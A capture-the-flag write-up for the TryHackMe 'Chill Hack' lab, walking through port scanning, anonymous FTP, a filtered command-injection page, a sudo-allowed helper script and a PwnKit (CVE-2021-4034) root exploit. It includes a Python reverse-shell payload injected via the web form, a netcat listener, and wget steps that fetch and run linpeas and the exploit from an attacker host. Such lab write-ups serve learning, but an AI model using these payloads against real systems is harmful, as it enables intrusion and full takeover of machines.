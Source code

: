 ## Chill Hack
https://tryhackme.com/room/chillhack

### 🍜Enum
```
./rustscan -a chill.thm
```
```
Open 10.10.100.185:21
Open 10.10.100.185:22
Open 10.10.100.185:80
```
```
nmap -p 21,22,80 -sC -sV -T4 -A chill.thm
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.95.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
```
ftp> open 10.10.100.185
Connected to 10.10.100.185.
220 (vsFTPd 3.0.3)
Name (10.10.100.185:root): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61202|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
```
```
cat note.txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
🚩User: Anurodh,Apaar
🤔Need some bypasses?

```
gobuster dir -u chill.thm -w Discovery/Web-Content/common.txt -t 50 -x html,shtml,php,jsp,log,bk,old -b 403,404
```
![image](https://user-images.githubusercontent.com/6504854/177584943-031bb322-51e5-4e02-9529-51fb1bbecf35.png)

![image](https://user-images.githubusercontent.com/6504854/177585421-e13b5ab5-d730-43f4-a5a9-c7080ec5cd5c.png)

![image](https://user-images.githubusercontent.com/6504854/177586924-e5c3eb48-2447-41d1-8e6f-d73851cd6f76.png)

![image](https://user-images.githubusercontent.com/6504854/177587825-8099310f-088e-4680-9a37-9cf36cdefed8.png)

🚩we can use restricted command.

### 🍜User
```
id;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';
```
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.100.185] 44778
$ whoami
whoami
www-data
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

```
$cd /tmp
$ cp /home/apaar/.helpline.sh help.sh
$ ls
help.sh
$ cat help.sh
```
```
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

```
$cd /home/apaar/
$sudo -u apaar ./.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: test
test
Hello user! I am test,  Please enter your message: cat local.txt
cat local.txt
```

### 🍜Root
```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ cd /tmp
$ wget http://10.10.10.10/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```
![image](https://user-images.githubusercontent.com/6504854/177595465-2c99449d-6e0d-4c40-be72-ee19f84dabe8.png)

https://github.com/berdav/CVE-2021-4034

```
git clone https://github.com/berdav/CVE-2021-4034
cd CVE-2021-4034
make
cd ../
tar -cvf poc.tar CVE-2021-4034
python3 -m http.server 80
```

wget and extract tar, exec shell

![image](https://user-images.githubusercontent.com/6504854/177610520-a5d9ace1-43dd-428d-9d61-7a0d572e165e.png)

😄Thank for your all support. Happy hacking 🏖️
